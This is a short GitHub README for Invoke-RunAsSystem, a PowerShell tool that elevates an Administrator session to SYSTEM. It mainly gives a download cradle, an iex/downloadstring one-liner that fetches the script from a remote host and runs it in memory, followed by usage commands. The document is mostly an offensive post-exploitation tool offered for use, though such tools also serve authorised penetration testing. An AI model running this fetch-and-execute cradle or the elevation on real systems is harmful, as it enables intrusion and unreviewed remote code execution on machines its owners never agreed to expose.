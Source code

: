 # Invoke-RunAsSystem
A simple script to elevate your current session to NT AUTHORITY\SYSTEM (needs to be run as Administrator)

```
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/Invoke-RunAsSystem/main/Invoke-RunAsSystem.ps1')
```
```
Invoke-RunAsSystem
```
```
Invoke-RunAsSystem -Command "whoami /all"
```

![image](https://github.com/Leo4j/Invoke-RunAsSystem/assets/61951374/b3f8b146-13b5-4e51-831a-37407e02a6af)
